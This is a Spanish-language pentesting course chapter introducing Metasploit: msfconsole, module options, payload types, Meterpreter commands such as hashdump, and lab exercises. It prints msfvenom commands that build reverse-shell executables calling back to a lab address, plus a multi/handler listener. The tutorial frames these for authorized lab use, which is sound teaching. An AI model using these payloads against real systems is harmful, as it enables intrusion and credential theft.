

# Introducción a Metasploit

Metasploit Framework es la plataforma de explotación más conocida del mundo. Reúne, en un solo sitio,
miles de módulos: exploits, payloads, escáneres auxiliares y herramientas de post-explotación. No
inventa vulnerabilidades: **aprovecha las que ya existen** en sistemas sin parchear. Aprender a usarlo es
entender el ciclo *exploit → payload → sesión*.

!!! danger "Uso ético y legal"
    Metasploit está diseñado para **explotación autorizada**: laboratorio propio, CTFs o plataformas con
    permiso explícito. Lanzar un exploit contra un sistema ajeno es un delito. Nunca lo uses fuera de tu
    alcance. Ver [Ética y legalidad](../nivel-1-principiante/00-etica-y-legalidad.md).

## Objetivos de aprendizaje

- Entender qué es un **framework de explotación** y qué aporta.
- Moverte por `msfconsole` y conocer la anatomía de un **módulo**.
- Diferenciar **exploit** de **payload**, y los tipos de payload (staged/stageless, reverse/bind).
- Configurar un módulo: `use`, `set`, `show options`, `check`, `run`.
- Entender **meterpreter** y las **sesiones** a nivel conceptual.
- Conocer buenas prácticas y limitaciones del framework.

**Tiempo estimado:** 90–120 min.

## Requisitos previos

- **[Linux avanzado y escalada de privilegios](01-linux-avanzado-y-privesc.md)** y
  **[Windows y Active Directory](02-windows-y-active-directory.md)**: qué se hace tras conseguir acceso.
- **[Nmap en profundidad](05-nmap-en-profundidad.md)**: la enumeración es el paso previo.
- **[Metodología de pentesting](06-metodologia-de-pentesting.md)**: el orden manda.
- Una máquina vulnerable de laboratorio (Metasploitable, VMs de práctica…).

## Explicación

### Qué es Metasploit

Es un **framework** (marco de trabajo) que estandariza la explotación:

| Componente | Función |
| --- | --- |
| **Exploit** | Código que aprovecha una vulnerabilidad concreta. |
| **Payload** | Lo que se ejecuta **si el exploit tiene éxito** (una shell, un comando). |
| **Encoder** | Ofusca el payload (evasión antigua, hoy poco eficaz ante EDR). |
| **NOP / sled** | Relleno para asegurar la ejecución. |
| **Auxiliary** | Módulos que no explotan: escáneres, fuzzers, sniffers. |
| **Post** | Módulos de post-explotación (recolectar, escalar, pivotar). |
| **Listener / handler** | Quien espera la conexión de un payload *reverse*. |



### `msfconsole`

`msfconsole` es el intérprete principal. Es potente por su **búsqueda** y su gestión de módulos.

```bash
sudo msfconsole
```

Comandos básicos:

| Comando | Qué hace |
| --- | --- |
| `help` | Lista de comandos. |
| `search <término>` | Busca módulos (`search smb`, `search apache`). |
| `use <ruta>` | Carga un módulo (`use auxiliary/scanner/smb/smb_version`). |
| `show options` | Ver parámetros requeridos. |
| `show payloads` | Payloads compatibles con el exploit. |
| `set <var> <valor>` | Asignar un valor (`set RHOSTS 10.0.0.5`). |
| `setg <var> <valor>` | Valor **global** para todos los módulos. |
| `check` | Comprobar si el objetivo parece vulnerable (si el módulo lo soporta). |
| `run` / `exploit` | Ejecutar. |
| `sessions` | Listar sesiones activas. |
| `sessions -i <n>` | Entrar en una sesión. |
| `back` | Salir del módulo actual. |
| `exit` | Salir. |

### Anatomía y configuración de un módulo

Variables habituales:

| Variable | Significado |
| --- | --- |
| `RHOSTS` | Host o rango objetivo (*remote host*). |
| `RPORT` | Puerto remoto. |
| `LHOST` | Tu IP (*local host*), la que verá la víctima para conectar de vuelta. |
| `LPORT` | Tu puerto de escucha. |
| `PAYLOAD` | Payload a usar. |
| `TARGET` / `TARGETURI` | Objetivo/URI específicos en algunos módulos. |

Flujo típico:

```text
msf6 > search type:auxiliary smb
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.0.0.5
msf6 auxiliary(scanner/smb/smb_version) > run
```

### Exploit vs payload

- **Exploit**: "cómo entro". Es específico de una vulnerabilidad concreta.
- **Payload**: "qué hago una vez dentro". Lleva el código que se ejecuta en el objetivo.

Tipos de payload:

| Clasificación | Opciones | Notas |
| --- | --- | --- |
| Por dirección | **reverse** vs **bind** | *Reverse*: la víctima conecta hacia ti (mejor con NAT/firewall de entrada). *Bind*: tú conectas a la víctima (peor si hay firewall). |
| Por entrega | **staged** vs **stageless** | *Staged* envía un pequeño *stager* y luego el resto (más sigiloso, más frágil). *Stageless* va todo de golpe. |
| Ejemplos | `meterpreter`, `shell`, `reverse_tcp`, `reverse_https` | `reverse_https` suele mezclarse mejor con tráfico normal. |

Meterpreter es un payload **avanzado** (ver abajo). Un `shell` es una shell normal, más básica.

### Meterpreter a nivel conceptual

**Meterpreter** es un payload que se ejecuta **en memoria** y ofrece un conjunto de comandos muy
potente: subir/bajar ficheros, tomar capturas, volcar hashes, pivotar, etc. Se carga como una DLL
inyectada en un proceso, lo que le permite no tocar disco (de ahí que sea más difícil de ver que un
programa común). Ejemplos de comandos dentro de una sesión meterpreter:

| Comando | Qué hace |
| --- | --- |
| `sysinfo` | Información del sistema. |
| `getuid` | Usuario en el que corre. |
| `ps` | Lista de procesos. |
| `migrate <pid>` | Migrar a otro proceso (estabilidad/sigilo). |
| `hashdump` | Volcar hashes de contraseñas (requiere privilegios). |
| `shell` | Abrir una shell del sistema. |
| `background` | Dejar la sesión en segundo plano. |

!!! warning "Meterpreter no es magia invisible"
    Los antivirus y EDR modernos detectan payloads sin firmar o con patrones conocidos, y **el tráfico
    de Meterpreter es analizable**. En un entorno defendido, un payload clásico puede durar segundos.
    La evasión "de verdad" es un campo avanzado y siempre en laboratorio.

### Multi/handler

Cuando usas un payload *reverse*, necesitas un **listener**. Metasploit lo da con el módulo
`exploit/multi/handler`:

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.20
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
```

Debe coincidir **exactamente** con el `PAYLOAD` y `LHOST/LPORT` que hayas generado en el objetivo. Si no
coincide, la sesión nunca llega.

### Compilar exploits con `msfvenom`

`msfvenom` genera payloads en distintos formatos (ejecutables, scripts, etc.):

```bash
# Ejemplo SOLO para laboratorio: payload reverse_tcp para Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.20 LPORT=4444 -f exe -o lab.exe

# Ejemplo de payload para Linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.20 LPORT=4444 -f elf -o lab.elf
```

Estos ficheros solo se crean y ejecutan **en tu laboratorio**. Generar malware para usarlo contra
terceros es delito, sin matices.

### Buenas prácticas y limitaciones

- **Enumera antes**: el módulo correcto es el que encaja con un servicio y versión **confirmados**.
- **Prefiere `auxiliary`** para información: escanear es menos invasivo que explotar.
- **Puede tumbar servicios**: algunos exploits son inestables. En un pentest real, avisa y respeta las
  RoE.
- **No abuses de `-j` (jobs)**: sesiones a medias por todos lados son imposibles de documentar.
- **Registra todo**: comandos, sesiones, evidencia. El informe depende de ello.
- **Las versiones de módulos caducan**: un módulo que funcionaba en 2015 puede no aplicar hoy.

## Práctica guiada

Con una **máquina vulnerable de tu laboratorio** (por ejemplo, una VM Metasploitable o una VM objetivo
tipo TryHackMe/Hack The Box autorizada):

### Ejercicio 1 — Arranca y busca

Abre `msfconsole` y busca módulos relacionados con SMB.

??? success "Solución"
    ```bash
    sudo msfconsole
    ```
    ```text
    msf6 > search type:auxiliary smb
    msf6 > search smb_version
    ```
    Anota las rutas de los módulos que te interesen.

### Ejercicio 2 — Escanea con un módulo auxiliar

Usa un módulo auxiliar para identificar el servicio SMB y su versión.

??? success "Solución"
    ```text
    msf6 > use auxiliary/scanner/smb/smb_version
    msf6 auxiliary(scanner/smb/smb_version) > show options
    msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.0.0.5
    msf6 auxiliary(scanner/smb/smb_version) > run
    ```
    Fíjate en el SO y la versión: de ahí sale el siguiente paso.

### Ejercicio 3 — Configura un exploit

Elige un exploit de tu laboratorio, muéstralo con `info` y lista sus opciones y payloads.

??? success "Solución"
    ```text
    msf6 > use exploit/... (el que corresponda a tu lab)
    msf6 exploit(...) > info
    msf6 exploit(...) > show options
    msf6 exploit(...) > show payloads
    ```
    Rellena `RHOSTS`, `RPORT`, `LHOST`, `LPORT` y `PAYLOAD`.

### Ejercicio 4 — Listener con `multi/handler`

Prepara un listener para recibir una sesión reverse.

??? success "Solución"
    ```text
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST 10.0.0.20
    msf6 exploit(multi/handler) > set LPORT 4444
    msf6 exploit(multi/handler) > run
    ```
    Debe coincidir con el payload que ejecutes en el objetivo.

### Ejercicio 5 — Gestiona sesiones

Supón que ya tienes una sesión. Practica la gestión.

??? success "Solución"
    ```text
    msf6 > sessions
    msf6 > sessions -i 1
    meterpreter > sysinfo
    meterpreter > getuid
    meterpreter > background
    msf6 > sessions
    ```
    `background` deja la sesión viva y vuelves al prompt de msf.

### Ejercicio 6 — Reflexiona y documenta

Escribe 5 pasos de tu explotación de laboratorio, con el comando de cada uno.

??? success "Solución"
    Ejemplo:
    ```text
    1. nmap -sV 10.0.0.5  → servicio X versión Y confirmado.
    2. msfconsole → search del módulo acorde a X/Y.
    3. use + set RHOSTS/LHOST/PAYLOAD → configuración.
    4. run → sesión obtenida (getuid: usuario Z).
    5. Documentar: módulo, parámetros, evidencia, efecto.
    ```

## Para ir más allá

- **Metasploit — documentación oficial** — EN, **Gratis**.
  <https://docs.metasploit.com>
- **Metasploit Framework (repositorio)** — EN, **Gratis**. <https://github.com/rapid7/metasploit-framework>
- **Rapid7 — blog y Unfiltered** — EN, **Gratis**. <https://www.rapid7.com>
- **Metasploitable** — VM vulnerable oficial para practicar. EN, **Gratis**. <https://www.vulnhub.com>
- **TryHackMe — Metasploit** — ruta guiada. EN, **Freemium**. <https://tryhackme.com>
- **Hack The Box** — máquinas para poner en práctica el método. EN, **Freemium**.
  <https://www.hackthebox.com>
- **Payloads All The Things** — referencia de payloads. EN, **Gratis**.
  <https://github.com/swisskyrepo/PayloadsAllTheThings>

## Siguiente paso

Detrás de casi toda seguridad (y de casi todo ataque) hay criptografía. Toca entenderla de verdad.
Sigue con **[10 · Criptografía aplicada](10-criptografia-aplicada.md)**.
